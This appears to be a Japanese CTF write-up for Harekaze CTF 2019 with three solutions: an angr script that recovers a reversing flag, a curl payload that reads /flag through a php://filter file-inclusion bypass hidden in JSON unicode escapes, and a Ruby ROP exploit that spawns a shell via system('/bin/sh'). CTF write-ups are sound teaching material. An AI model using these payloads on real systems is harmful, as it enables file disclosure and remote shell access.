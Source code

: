 ```python
import angr

project = angr.Project('./scramble')
entry = project.factory.entry_state()
simgr = project.factory.simgr(entry)
simgr.explore()

states = simgr.deadended
for state in states:
    flag = b"".join(state.posix.stdin.concretize())
    print(flag)
```


```text
(angr) angr@4a3bbfa7af32:/work$ python solve.py
b'\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xc9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9Y\xd9\xd9\xd9\xd9\xd9\xd9\xd9\xd9'
b'@ardJ`0D\x00D\x02\x1b\x13J"\x00y\x1bh\x04\x02\x00h\x00\x00\x00\x01\x01\x00\x04\x0c\xa0\x01\x00\x00\x01\x01\x01'
b'Harek!:eBTF{3nj0y\x1bh\x04b3k0p\x11_a7f]2\x101\x19!\x01\x14'
b'Harek!zeCTF{3nj0y[h$r3k0x3_c7f]2019!\x01\x15'
b'HarekazeCTF{3nj0y_h4r3k4z3_c7f_2019!!}'
```


# Encode & Encode (Web 100pts)


出力側のチェックは`php://filter/convert.base64-encode/`を利用して回避し、入力側のチェックは JSON の文字列の unicode エスケープを利用して回避する。


```text
$ curl -s http://153.127.202.154:1001/query.php -H "Content-Type: application/json" -d '{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}' | jq -r .content | base64 -d
HarekazeCTF{turutara_tattatta_ritta}
```


# Baby ROP (pwn 100pts)


バイナリに`"/bin/sh"`が用意されているので、それを`pop rdi`してから system を呼び出す。


```ruby
rp = [0x00400683, # pop rdi
      0x601048, #/bin/sh
      0x4005e3 # system
].pack("Q*")
require 'ctf'

TCPSocket.open(*ARGV) do |s|
    s.echo = true
    s.print 'a' * 24 + rp
    s.puts
    s.flush
    
    s.interactive!
end
```

